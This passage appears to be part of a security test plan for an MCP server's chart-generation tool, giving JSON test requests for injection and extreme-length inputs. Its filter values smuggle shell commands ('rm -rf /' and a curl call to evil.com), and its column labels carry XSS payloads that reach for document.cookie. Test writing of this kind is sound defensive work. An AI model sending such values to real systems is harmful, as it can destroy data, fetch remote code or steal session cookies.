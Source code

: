 ```json
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "xy",
      "x": {"name": "date"},
      "y": [{"name": "sales", "aggregate": "SUM"}],
      "filters": [
        {"column": "region", "op": "=", "value": "`rm -rf /`"},
        {"column": "type", "op": "=", "value": "$(curl http://evil.com)"}
      ]
    }
  }
}
```

### 1.3 Label Injection Tests
```json
# Test Case: XSS in custom labels
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "table",
      "columns": [
        {"name": "product", "label": "<iframe src='javascript:alert(1)'></iframe>"},
        {"name": "sales", "label": "Sales<svg onload=alert(document.cookie)>", "aggregate": "SUM"}
      ]
    }
  }
}
```

## 2. Boundary & Extreme Value Tests

### 2.1 String Length Limits
```json
# Test Case: Extremely long column names
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "table",
      "columns": [
        {"name": "a".repeat(10000), "label": "Long Column"},
        {"name": "🔥".repeat(5000), "label": "Unicode Spam"}
      ]
    }
  }
}

# Test Case: Extremely long filter values
mcp__mcp-server__generate_chart {
  "request": {
    "dataset_id": 1,
    "config": {
      "chart_type": "xy",
      "x": {"name": "date"},
      "y": [{"name": "sales", "aggregate": "SUM"}],
      "filters": [
        {"column": "description", "op": "=", "value": "x".repeat(1000000)}
      ]
```